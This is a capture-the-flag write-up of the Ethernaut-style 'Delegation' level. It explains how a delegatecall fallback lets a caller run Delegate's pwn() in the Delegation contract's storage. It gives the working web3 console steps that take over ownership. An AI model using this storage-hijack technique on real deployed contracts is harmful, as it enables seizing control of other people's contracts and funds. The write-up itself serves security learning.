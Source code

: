 ### Task

>The goal of this level is for you to claim ownership of the instance you are given.

### Observations

Two contracts. Both store owner address in storage of the contract.

Contract ```Delegation{}``` uses ```delegatecall(msg.data)``` which calls Contract ```Delegate{}``` with its own storage. 

```Delegate{}``` has function ```pwn()``` which changes owner to ```msg.sender```.

I create a transaction to trigger ```Delegation{}``` fallback, with ```msg.data``` containing a call to ```pwn()```. 
Since the call is via the ```Delegation{}``` contract and storage, it will gain us access to ownership of ```Delegation{}```.

### Steps
Check current ownership. 
```await contract.owner()```

Get the hash of ```pwn()``` function.
```let pwnHash = web3.utils.sha3("pwn()");```

Invoke the fallback function with msg data of the pwn hash.
```contract.sendTransaction({data: pwnHash})```

Check new ownership.
```await contract.owner()```

Should be the same as my address found under ```player``` variable.